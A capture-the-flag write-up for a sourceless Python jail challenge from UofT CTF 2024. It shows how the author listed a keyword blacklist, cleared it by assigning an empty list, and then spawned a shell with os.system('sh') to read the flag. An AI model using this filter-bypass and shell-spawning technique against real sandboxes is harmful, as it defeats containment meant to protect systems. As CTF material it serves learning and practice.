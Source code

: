 ```yaml
---
layout: writeup
category: UofT-CTF-2024
chall_description:
points: 100
solves: 295
tags: misc misc/pyjail misc/blacklist
date: 2024-1-15
comments: false
---
```


@windex told me that jails should be sourceless. So no source for you.  

Author: SteakEnthusiast  

`nc 35.226.249.45 5000`  

---

We're given a pyjail without a source file.  

After a bit of exploration, I entered `print(dir())`. This returned the following:  

```py
['__annotations__', '__builtins__', '__cached__', '__doc__', '__file__', '__loader__', '__name__', '__package__', '__spec__', 'blacklist', 'cmd', 'i']
```

So there's a blacklist variable. Can we print it out?  

```py
print(blacklist)
```

This returns:

```py
['import', 'exec', 'eval', 'os', 'open', 'read', 'system', 'module', 'write', '.']
```

Perfect. Now we know what's blacklisted.  

I wasn't sure how to proceed, so I turned to Google. By simply searching `pyjail blacklist`, I found [this](https://ctftime.org/writeup/37232). Its input didn't quite work since it included a `.`, but it gave me an idea. What if I just set blacklist to an empty list?  

```py
blacklist = []
print(blacklist)
```

```py
[]
```

It worked! Now we can just pop a shell and get the flag:  

```py
import os; os.system('sh')
```

```
ls
cat flag
```

    uoftctf{you_got_out_of_jail_free}